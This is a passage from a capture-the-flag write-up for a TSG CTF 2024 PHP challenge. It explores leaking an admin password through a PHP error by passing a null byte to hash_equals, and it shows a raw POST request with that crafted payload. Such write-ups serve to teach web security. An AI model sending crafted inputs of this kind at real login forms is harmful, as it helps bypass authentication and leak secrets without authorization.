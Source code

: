 Therefore, we know how to have the correct `$pepper1` and `$pepper2`!

Now, the big question is: How can we get the **admin password**?

Hmm... Maybe we can apply the same concept to **leak `$admin_password` via PHP error**?

In `i_have_been_pwned/scripts/index.php`, we can see that the correct admin password is compared with our POST parameter `password`:

```php
if (isset($_POST["auth"]) and isset($_POST["password"])) {
    [...]
    if ([...]) {
        [...]
    } else if(($_POST["auth"] === "admin") and hash_equals($admin_password, $_POST["password"])) {
        [...]
    }
    [...]
```

Hmm... Again, what if function `hash_equals`'s second argument has a null byte?

```http
POST /index.php HTTP/1.1
Host: 34.84.32.212:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

auth=admin&password=%00
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TSG-CTF-2024/images/Pasted%20image%2020241216124003.png)
